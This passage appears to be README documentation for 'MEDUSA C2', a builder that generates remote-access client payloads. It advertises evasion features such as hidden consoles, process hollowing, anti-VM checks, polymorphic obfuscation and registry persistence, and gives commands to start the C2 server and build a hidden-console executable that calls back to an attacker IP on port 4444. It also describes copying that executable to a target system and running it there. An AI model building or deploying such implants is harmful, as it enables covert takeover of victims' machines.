 ### For Advanced Features
```bash
# Install additional dependencies
pip install cryptography
pip install psutil
```

## Security Features

### 🔒 Built-in Security
- **Encrypted Communication**: JSON-based encrypted messaging
- **Client ID Generation**: Unique client identification
- **Jitter**: Anti-detection timing randomization
- **Persistence**: Registry/autostart persistence options
- **Error Handling**: Robust error handling and reconnection

### 🛡️ Evasion Techniques
- **Console Hiding**: No visible windows
- **Process Hollowing**: Advanced injection techniques (advanced version)
- **Anti-VM Detection**: Virtual machine detection (advanced version)
- **Polymorphic Code**: Code obfuscation options (advanced version)

## Integration with MEDUSA C2

The generated payloads are fully compatible with the MEDUSA C2 server:

1. **Start MEDUSA Server**:
   ```bash
   python server.py
   ```

2. **Generate Client**:
   ```bash
   python builder.py --type python --ip YOUR_SERVER_IP --port 4444 --build-exe --hide-console
   ```

3. **Deploy and Execute**:
   - Copy the generated executable to target system
   - Execute the payload
   - Monitor connections in MEDUSA web interface

## Web Interface Integration

The builder can also be used programmatically from the MEDUSA web interface:

```python
from builder import PayloadBuilder

builder = PayloadBuilder()

# Generate Python client
py_file = builder.generate_python_client("192.168.1.100", 4444, "webclient")

# Build executable
exe_file = builder.build_executable(py_file, "webclient", hide_console=True)
```
